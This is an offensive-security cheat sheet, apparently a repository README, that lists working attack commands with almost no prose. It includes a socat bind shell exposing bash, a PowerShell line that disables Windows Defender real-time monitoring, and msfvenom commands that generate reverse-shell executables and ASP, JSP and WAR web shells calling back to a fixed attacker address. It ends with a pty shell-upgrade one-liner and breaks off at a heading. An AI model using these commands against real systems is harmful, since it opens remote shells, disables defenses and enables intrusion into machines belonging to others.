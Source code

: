 #### Socat Listener

```bash
socat TCP-LISTEN:443,reuseaddr,fork EXEC:/bin/bash
```

#### Disable Windows Defender Real-Time Monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Payload Generation with MSFvenom

#### Linux Reverse Shell Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

#### Windows Reverse Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

#### MacOS Reverse Shell Payload

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

#### ASP Web Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

#### JSP Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

#### WAR Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

#### Shell Spawning Techniques

#### Python Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

#### Basic Linux Shell
